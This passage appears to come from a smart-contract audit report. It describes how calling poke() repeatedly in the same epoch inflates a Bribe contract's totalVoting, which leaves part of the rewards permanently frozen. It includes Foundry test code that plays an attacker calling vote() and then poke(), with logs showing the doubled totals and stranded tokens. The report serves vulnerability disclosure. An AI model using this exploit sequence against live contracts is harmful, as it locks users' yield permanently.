 But if the user call poke() in the same EPOCH as in the step 3, then the totalVoting will be inflated. 

I demonstrated this in the test case testBribeClaimingPoke_Hacked_2()

```solidity
        hevm.prank(attacker);
        voter.vote(tokenId1, pools, weights, 0);
        console2.log("totalVoting after vote(): %", IBribe(bribeAddress).totalVoting());
        console2.log("Call voter poke()"); 
        hevm.startPrank(attacker);
        voter.poke(tokenId1);
        console2.log("totalVoting after poke(): %", IBribe(bribeAddress).totalVoting());        
        hevm.stopPrank();
```

The log shows: 
```
  totalVoting after vote(): % 1999407217131972451
  Call voter poke()
  totalVoting after poke(): % 3998814434263944902
```

And then in step 4, the total of rewards claimed by all users will be less than the total reward. There will be tokens left in the contract. Bal balance of Bribe contract: 25000000000000000000000  

```
[PASS] testBribeClaimingPoke_Hacked_2() (gas: 4471757)
Logs:
  Bal balance of Bribe contract: 100000000000000000000000
  totalVoting after vote(): % 1999407217131972451
  Call voter poke()
  totalVoting after poke(): % 3998814434263944902
  earnedBribes0 0
  earnedBribes2 0
  earnedBribes3 0
  Fast forward 1 epoch
  earnedBribes1 25000000000000000000000
  Bal balance of attacker: 25000000000000000000000
  earnedBribes2 25000000000000000000000
  earnedBribes3 25000000000000000000000
  Bal balance of Alice: 25000000000000000000000
  Bal balance of Bob: 25000000000000000000000
  Bal balance of Bribe contract: 25000000000000000000000

```

Now the attacker can also exploit this vulnerablity to cause "Permanent freezing of unclaimed yield" or 'Permanent freezing of unclaimed royalties" by maliciously call poke() many times to inflate totalVoting. The left amount of reward will be stuck in this contract. There is no way to get it out so it is Permanent freezing of unclaimed yield. s

I demonstrated this in the test case: testBribeClaimingPoke_Hacked() 

```solidity
        hevm.prank(attacker);
        voter.vote(tokenId1, pools, weights, 0);
        console2.log("totalVoting after vote(): %", IBribe(bribeAddress).totalVoting());
        console2.log("Call voter poke()"); 
                hevm.startPrank(attacker);
        voter.poke(tokenId1);
        console2.log("totalVoting after poke(): %", IBribe(bribeAddress).totalVoting()); 
        voter.poke(tokenId1);
        console2.log("totalVoting after poke(): %", IBribe(bribeAddress).totalVoting()); 
        voter.poke(tokenId1);
        console2.log("totalVoting after poke(): %", IBribe(bribeAddress).totalVoting()); 
        hevm.stopPrank();
```
